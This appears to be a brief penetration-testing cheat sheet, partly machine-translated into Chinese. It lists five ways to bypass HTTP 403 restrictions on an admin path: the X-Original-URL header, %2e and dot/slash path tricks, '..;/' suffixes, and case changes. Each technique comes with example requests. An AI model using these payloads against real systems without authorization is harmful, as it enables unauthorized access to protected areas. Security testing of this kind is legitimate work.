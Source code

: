 # 403 Forbidden Bypass

1. 使用“ X-Original-URL”标题 header
```
GET /admin HTTP/1.1
Host: target.com
```
Try this to bypass
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. 在第一个斜杠后附加％2e
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/%2e/admin => 200
```

3. 尝试在网址中添加点（。）和斜杠（/）
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. 在目录名称后添加“ ..; /”
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/admin..;/
```


5. 尝试将网址中的字母大写
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/aDmIN
```

Source: [@iam_j0ker](https://twitter.com/iam_j0ker)
